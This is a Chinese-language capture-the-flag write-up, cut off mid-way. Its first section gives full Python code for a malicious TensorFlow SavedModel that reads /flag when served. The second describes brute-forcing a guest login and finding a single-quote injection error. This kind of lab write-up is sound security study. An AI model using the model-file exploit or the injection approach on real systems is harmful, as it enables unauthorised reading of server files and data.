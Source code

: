 ## Mini-modelscope

发现使用tensflow，合理猜想思路应该是通过写入，让模型在导入的时候实现命令执行

根据题目描述，推理时，模型的签名 serve 会返回指定文件（这里是 /flag）的内容

```python
import tensorflow as tf
import os
import shutil
import zipfile

EXPORT_DIR = "mdoel"
ZIP_NAME = "model.zip"
FLAG_PATH = "/flag"

if os.path.exists(EXPORT_DIR):
    shutil.rmtree(EXPORT_DIR)
if os.path.exists(ZIP_NAME):
    os.remove(ZIP_NAME)

@tf.function(input_signature=[tf.TensorSpec(shape=[None, 1], dtype=tf.float32)])
def serve_fn(x):
    data = tf.io.read_file(FLAG_PATH)
    batch_dim = tf.shape(x)[0]
    data_vec = tf.repeat(tf.expand_dims(data, 0), repeats=batch_dim)
    return {"prediction": data_vec}

class ModelWrapper(tf.Module):
    @tf.function(input_signature=[tf.TensorSpec(shape=[None, 1], dtype=tf.float32)])
    def __call__(self, inputs):
        return serve_fn(inputs)

model_instance = ModelWrapper()
tf.saved_model.save(model_instance, EXPORT_DIR, signatures={"serve": serve_fn})

with zipfile.ZipFile(ZIP_NAME, "w", zipfile.ZIP_DEFLATED) as zf:
    for root, _, files in os.walk(EXPORT_DIR):
        for file in files:
            full_path = os.path.join(root, file)
            rel_path = os.path.relpath(full_path, EXPORT_DIR)
            zf.write(full_path, rel_path)

```

## Ez_talk

这道题开始经典登陆框，爆破后获得guest/guest账户

我们登陆上去开始一直以为是否又是大模型提示词注入，但是反复使用了一个提示词后，发现输出非常固定

于是乎，有猜测是否不是提示词相关，于是尝试fuzz了一下，发现有经典在单引号的时候有经典报错
